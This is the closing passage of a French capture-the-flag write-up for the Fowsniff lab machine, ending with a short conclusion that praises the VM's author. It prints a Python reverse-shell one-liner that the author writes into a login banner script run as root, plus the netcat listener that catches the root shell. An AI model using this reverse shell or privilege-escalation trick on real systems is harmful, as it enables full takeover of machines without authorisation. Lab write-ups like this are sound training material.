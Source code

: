 Oui oui oui, mille fois oui ! Un _reverse shell_ avec Python fera parfaitement l'affaire (et avec python3, c'est encore mieux !). ```nc -nlvp 12345``` sur notre machine, ```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``` dans le fichier ```cube.sh``` et nous obtenons notre shell, après la connexion réussie et l'exécution du fichier ```cube.sh``` pour la bannière d'accueil !

```console
baksteen@fowsniff:~$ vi /opt/cube/cube.sh
baksteen@fowsniff:~$ cat /opt/cube/cube.sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
baksteen@fowsniff:~$ exit
logout
Connection to 192.168.56.101 closed.

root@blinils:~# ssh baksteen@192.168.56.101
baksteen@192.168.56.101's password: 
```

Au même moment dans un autre terminal, on récupère la connexion en tant que ```root``` et par la même occasion le flag tant convoité !

```console
root@blinils:~# nc -nlvp 12345
listening on [any] 12345 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 41308
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)

# wc -c /root/flag.txt
582 flag.txt

# tail -n4 /root/flag.txt
This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
```

## Conclusion

Ce CTF était vraiment très plaisant à résoudre. J'aime beaucoup ce type de VM avec un scénario réaliste ; en l'occurrence, [berzerk0](https://berzerk0.github.io/GitPage/) a particulièrement soigné les détails : création d'un compte Twitter, mise en place d'un Pastebin, rédaction des e-mails... tout était ordonné et très bien ficelé ! Un grand merci à Ben Berkowitz pour la confection de cette VM !